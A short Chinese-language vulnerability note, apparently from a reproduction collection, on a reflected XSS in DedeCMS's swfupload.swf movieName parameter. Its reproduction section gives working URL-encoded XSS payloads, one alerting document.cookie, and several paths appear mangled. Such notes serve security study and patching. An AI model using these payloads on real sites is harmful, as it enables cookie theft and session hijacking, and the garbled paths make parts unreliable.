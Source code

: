 ```yaml
---
title: "Dedecms swf文件反射型xss"
id: zhfly2862
---
```


# Dedecms swf文件反射型xss

## 一、漏洞简介

DedeCMS 5.../img/swfupload/swfupload.swf文件movieName参数没有合适过滤，导致跨站脚本漏洞。

## 二、漏洞影响

## 三、复现过程

### 代码分析

详细说明：

Location: /uploa../img/swfupload/swfupload.swf

漏洞文件为：http://www.dedecms.c../img/swfupload/swfupload.swf

这个flash文件存在漏洞，此文件漏洞可参考:https://nealpoole.com/blog/2012/05/xss-and-csrf-via-swf-applets-swfupload-plupload/

### 复现

```
/images/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28%22ian最帅%22%29}}//../img/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28document.cookie%29}}//` 
```